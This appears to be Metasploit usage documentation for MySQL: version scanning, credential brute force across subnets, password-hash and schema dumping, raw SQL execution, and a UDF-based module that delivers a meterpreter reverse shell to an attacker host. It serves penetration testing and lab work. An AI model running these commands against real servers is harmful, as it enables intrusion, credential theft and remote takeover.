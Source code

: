 ## MySQL

MySQL is frequently found on port 3306/TCP. It is an open-source relational database management system.

Metasploit has support for multiple MySQL modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Dumping database information
- Executing arbitrary queries against the database
- Executing arbitrary SQL queries against the database
- Gaining reverse shells

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf6 > search mysql
```

### Lab Environment

When testing in a lab environment MySQL can either be installed on the host machine or within Docker:

```
docker run -it --rm -e MYSQL_ROOT_PASSWORD=' a b c p4$$w0rd' -p 3306:3306 mariadb:latest
```

### MySQL Enumeration

Enumerate version:

```
use auxiliary/scanner/mysql/mysql_version
run mysql://127.0.0.1
```

### MySQL Login / Bruteforce

If you have MySQL credentials to validate:

```
use auxiliary/scanner/mysql/mysql_login
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Re-using MySQL credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
```

Using an alternative port:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
```

Brute-force host with known user and password list:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### MySQL Dumping

User and hash dump:

```
use auxiliary/scanner/mysql/mysql_hashdump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Schema dump:

```
use auxiliary/scanner/mysql/mysql_schemadump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

### MySQL Querying

Execute raw SQL:

```
use admin/mysql/mysql_sql
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' sql='select version()'
```

### MySQL Reverse Shell

This module creates and enables a custom UDF (user defined function) on the target host via the `SELECT ... into DUMPFILE` method of binary injection. On default Microsoft Windows installations of MySQL (=< 5.5.9), directory write permissions not enforced, and the MySQL service runs as LocalSystem.

For this to work successfully:

1. `secure_file_priv`, a mysql setting, must be changed from the default to allow writing to MySQL's plugins folder
2. On Ubuntu, apparmor needs a bunch of exceptions added, or to be disabled. Equivalents on other linux systems most likely need the same
3. The MySQL plugin folder must be writable

NOTE: This module will leave a payload executable on the target system when the attack is finished, as well as the UDF DLL, and will define or redefine `sys_eval()` and `sys_exec()` functions. Usage:

```
use multi/mysql/mysql_udf_payload
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' lhost=192.168.123.1 target=Linux payload=linux/x86/meterpreter/reverse_tcp
```
